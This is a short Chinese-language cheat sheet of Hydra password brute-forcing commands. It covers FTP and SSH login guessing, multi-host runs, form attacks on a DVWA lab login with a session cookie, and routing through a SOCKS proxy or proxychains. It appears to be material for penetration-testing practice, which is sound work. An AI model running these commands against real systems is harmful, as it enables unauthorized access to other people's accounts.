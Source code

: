 	猜测指定用户名的密码
	> hydra -l username -P pass.txt 192.168.1.141 ftp
	猜测指定密码的用户名
	> hydra -L users.txt -p 123 192.168.1.141 ftp
	爆破用户名和密码
	> hydra -L users.txt -P pass.txt 192.168.1.141 ftp
	详细模式加-V 调试模式加-d
	-e nsr参数
	n代表null ,s代表same相同，r代表字符反转,如admin对应nimda
	-o result.txt 代表保存结果到文件
	-R 由于某些原因停止了爆破
	> hydra -R 可以恢复爆破
	针对特定端口
	> hydra -L users.txt -P pass.txt 192.168.1.141 ssh -s 2222
	针对多台机器
	> hydra -L users.txt -P pass.txt -M hosts.txt ftp
	添加-F 参数，当爆破出一个结果时停止爆破
	表单爆破
	> hydra -l admin -P pass.txt 192.168.1.150 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
	加入cookie
	> hydra 192.168.1.150 -l admin -P 'pass.txt' http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie:PHPSESSID=13f2650bddf7a9ef68858ceea03c5d; security=low"
	代理支持
	> export HYDRA_PROXY=socks5://192.168.1.141:1080
	> hydra -l username -P pass.txt 192.168.1.141 ftp
	proxychains
	编辑/etc/proxychains4.conf后执行
	> proxychains hydra -l ignite -P pass.txt 192.168.1.141 ftp